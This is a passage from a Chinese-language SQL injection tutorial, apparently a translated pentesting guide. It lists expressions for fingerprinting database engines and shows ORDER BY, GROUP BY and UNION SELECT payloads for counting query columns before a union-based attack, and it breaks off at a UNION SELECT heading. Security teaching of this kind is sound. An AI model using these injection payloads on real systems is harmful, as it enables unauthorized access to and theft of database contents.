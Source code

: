 ```bash
["5::int=5"                                        ,"POSTGRESQL"],
["5::integer=5"                                    ,"POSTGRESQL"],
["pg_client_encoding()=pg_client_encoding()"       ,"POSTGRESQL"],
["get_current_ts_config()=get_current_ts_config()" ,"POSTGRESQL"],
["quote_literal(42.5)=quote_literal(42.5)"         ,"POSTGRESQL"],
["current_database()=current_database()"           ,"POSTGRESQL"],
["sqlite_version()=sqlite_version()"               ,"SQLITE"],
["last_insert_rowid()>1"                           ,"SQLITE"],
["last_insert_rowid()=last_insert_rowid()"         ,"SQLITE"],
["val(cvar(1))=1"                                  ,"MSACCESS"],
["IIF(ATN(2)>0,1,0) BETWEEN 2 AND 0"               ,"MSACCESS"],
["cdbl(1)=cdbl(1)"                                 ,"MSACCESS"],
["1337=1337",   "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
["'i'='i'",     "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
```
此外，如果您可以访问查询的输出，您可以使其**打印数据库的版本**。

{% hint style="info" %}
接下来我们将讨论不同的方法来利用不同类型的SQL注入。我们将以MySQL为例。
{% endhint %}

### 使用PortSwigger进行识别

{% embed url="https://portswigger.net/web-security/sql-injection/cheat-sheet" %}

## 利用基于联合的注入

### 检测列数

如果您可以看到查询的输出，这是利用它的最佳方法。\
首先，我们需要找出**初始请求**返回的**列数**。这是因为**两个查询必须返回相同数量的列**。\
通常使用两种方法来实现这一目的：

#### Order/Group by

要确定查询中的列数，逐步调整**ORDER BY**或**GROUP BY**子句中使用的数字，直到收到错误响应。尽管**GROUP BY**和**ORDER BY**在SQL中具有不同的功能，但两者可以以相同的方式用于确定查询的列数。
```sql
1' ORDER BY 1--+    #True
1' ORDER BY 2--+    #True
1' ORDER BY 3--+    #True
1' ORDER BY 4--+    #False - Query is only using 3 columns
#-1' UNION SELECT 1,2,3--+    True
```

```sql
1' GROUP BY 1--+    #True
1' GROUP BY 2--+    #True
1' GROUP BY 3--+    #True
1' GROUP BY 4--+    #False - Query is only using 3 columns
#-1' UNION SELECT 1,2,3--+    True
```
#### UNION SELECT
